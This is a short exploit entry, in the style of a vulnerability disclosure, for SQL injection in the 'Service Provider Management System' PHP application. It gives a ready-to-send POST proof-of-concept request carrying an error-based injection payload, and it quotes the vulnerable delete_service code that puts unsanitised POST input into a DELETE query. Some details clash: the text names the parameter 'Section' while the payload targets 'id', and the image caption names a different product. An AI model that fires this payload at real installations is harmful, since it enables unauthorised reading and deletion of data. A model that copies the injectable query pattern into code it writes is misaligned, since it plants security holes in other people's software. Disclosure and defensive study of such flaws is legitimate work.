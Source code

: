 ### Exploit Title: Service Provider Management System - SQL injections
### Date: 2023-05/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/download-code?nid=16501&title=Service+Provider+Management+System+using+PHP+and+MySQL+Source+Code+Free+Download
### Version: 1.0
### Tested on: macOs 13.3.1 (a) + phpstudy


# 1./classes/Master.php
/classes/Master.php SQL injection exists for parameter Section

### Sample request POC #1

```
POST /classes/Master.php?f=delete_service HTTP/1.1
Host: 10.211.55.3:8001
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 114

id='+AND+GTID_SUBSET(CONCAT(0x717a6a7071%2Cmd5(1)%2C(SELECT+(ELT(8125%3D8125%2C1)))%2C0x71707a7071)%2C8125)--+jKyA
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/raw/main/imgs/1683792001887.jpg "AC Repair and Services System - SQL injections")

### Related Codes /classes/Master.php
...
function delete_service(){
	extract($_POST);
	$del = $this->conn->query("DELETE FROM `service_list` where id = '{$id}'");
	if($del){
		$resp['status'] = 'success';
		$this->settings->set_flashdata('success'," Service successfully deleted.");
	}else{
		$resp['status'] = 'failed';
		$resp['error'] = $this->conn->error;
	}
	return json_encode($resp);
}
...
```
